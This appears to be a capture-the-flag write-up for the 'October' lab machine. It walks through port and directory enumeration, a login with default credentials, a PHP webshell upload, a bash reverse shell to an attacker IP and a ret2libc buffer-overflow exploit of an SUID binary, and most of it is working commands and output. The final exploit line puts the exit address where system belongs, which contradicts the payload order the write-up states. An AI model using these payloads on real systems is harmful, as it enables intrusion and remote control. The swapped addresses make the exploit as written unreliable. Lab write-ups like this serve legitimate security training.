


# October
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.16 -T4                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:39 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.092s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.16 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:44 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds

```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.16/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.16/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/09/10 17:47:42 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 200) [Size: 4253]
/forum                (Status: 200) [Size: 9589]
/themes               (Status: 301) [Size: 310] [--> http://10.10.10.16/themes/]
/modules              (Status: 301) [Size: 311] [--> http://10.10.10.16/modules/]
/tests                (Status: 301) [Size: 309] [--> http://10.10.10.16/tests/]
/storage              (Status: 301) [Size: 311] [--> http://10.10.10.16/storage/]
/plugins              (Status: 301) [Size: 311] [--> http://10.10.10.16/plugins/]
/backend              (Status: 302) [Size: 400] [--> http://10.10.10.16/backend/backend/auth]
/vendor               (Status: 301) [Size: 310] [--> http://10.10.10.16/vendor/]
/config               (Status: 301) [Size: 310] [--> http://10.10.10.16/config/]

```

## Foothold/User
- From `gobuster` results we see `backend` endpoint
  - Googling also shows that there is a `October CMS`


- Default creds `admin:admin` works


- We can now perform https://www.exploit-db.com/exploits/41936
  - We can perform `PHP upload protection bypass` to upload a webshell
  - We can upload `.php5` file with `<?php system($_REQUEST['cmd']); ?>`


```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=id' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.9/6666+0>%261"' 
```


## Root
- Running `linpeas`
  - We have unknown suid binary `ovrflw`
  - Probably binary exploitation 


- `ovrflw`
```
└─$ file ovrflw                
ovrflw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
```
```
└─$ ./ovrflw   
Syntax: ./ovrflw <input string>
```
- Check protections
  - `NX` is enabled, thus we can't run shellcode from stack
```
└─$ gdb ovrflw
...
pwndbg> checksec
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/kali/.cache/.pwntools-cache-3.11/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.10.0)
[*] '/home/kali/Documents/tasks/ovrflw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

- `ASLR` is also on
```
www-data@october:/var/www/html/cms/storage/app/media$ sysctl -a --pattern "randomize"
kernel.randomize_va_space = 2
```

- Let's start with creating paylod to find an offset
```
└─$ msf-pattern_create -l 500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq
```

- Now pass the payload to program
  - Program crashed at `0x64413764`


- It's located at `112`
```
└─$ msf-pattern_offset -q d7Ad
[*] Exact match at offset 112
```

- Generate the same payload with `python`
```
└─$ python3 -c 'print("A"*112 + "B"*4)'                            
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

- Now we control the `EIP` register



- Since we can't run shellcode from stack, we can perform `ret2libc` attack
  - We have to find the address of `libc` on the box
```
www-data@october:/var/www/html/cms/storage/app/media$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d7000)
```

- Now we need to find the offsets of `system`, `exit` syscalls
  - We also need an offset of `/bin/sh`
```
www-data@october:/var/www/html/cms/storage/app/media$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system" -e " exit"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
```
www-data@october:/var/www/html/cms/storage/app/media$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep -e "/bin/"
 162bac /bin/sh
 164b10 /bin/csh
```

- Now we have to calculate the addresses
```
system: 0xb75d7000 + 0x40310 = 0xb7617310
exit: 0xb75d7000 + 0x33260 = 0xb760a260
/bin/sh: 0xb75d7000 + 0x162bac = 0xb7739bac

```

- The payload will be: `[A*112] + system + exit + /bin/sh`
- Okay, the problem will be the `ASLR`
  - We will have to run the exploit several times
  - Until we get a hit
```
www-data@october:/var/www/html/cms/storage/app/media$ while true; do /usr/local/bin/ovrflw $(python -c 'print "\x41"*112 + "\x60\xa2\x60\xb7" + "\x10\x73\x61\xb7" + "\xac\x9b\x73\xb7"'); done
Segmentation fault (core dumped)
Illegal instruction (core dumped)
...
```

- If we did everything correctly, we will receive our shell



